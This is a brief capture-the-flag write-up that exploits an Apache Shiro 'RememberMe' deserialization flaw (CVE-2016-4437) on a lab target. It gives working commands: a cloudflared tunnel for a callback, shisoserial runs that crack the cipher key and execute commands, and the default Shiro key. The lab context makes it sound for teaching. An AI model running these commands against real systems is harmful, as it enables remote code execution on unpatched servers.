

Shiro
First, let's access our target page.

Which has default credentials -_-.
After trying these credentials, we got the admin panel.

And there is a note in the footer.

So as you can see, it uses Apache Shiro for authentication. Let's search for any vulnerabilities for it.
After a lot of searching, I found a CVE that is related to "Remember Me": https://nvd.nist.gov/vuln/detail/cve-2016-4437, and it's Remote Code Execution (RCE).
https://packetstorm.news/files/id/157497 - so as you can see, it has a Metasploit module.

It didn't work after a lot of tries, so I tried a public exploit: https://github.com/4nth0ny1130/shisoserial.
But first, we must use Cloudflared to start tunneling.
cloudflared tunnel --url tcp://localhost:4444
You will have a link, and that is the link we need.
❯ python3 shisoserial.py -m crack -u http://173.208.132.134:30707 -t CBC -p https://yourlink.com

Here is the key we will use:
❯ python3 shisoserial.py -m echo -u http://173.208.132.134:30707 -t CBC -k kPH+bIxk5D2deZiIxcaaaA== -c "id" -g CommonsBeanutils1

And here we got the RCE.

And here is our flag ;)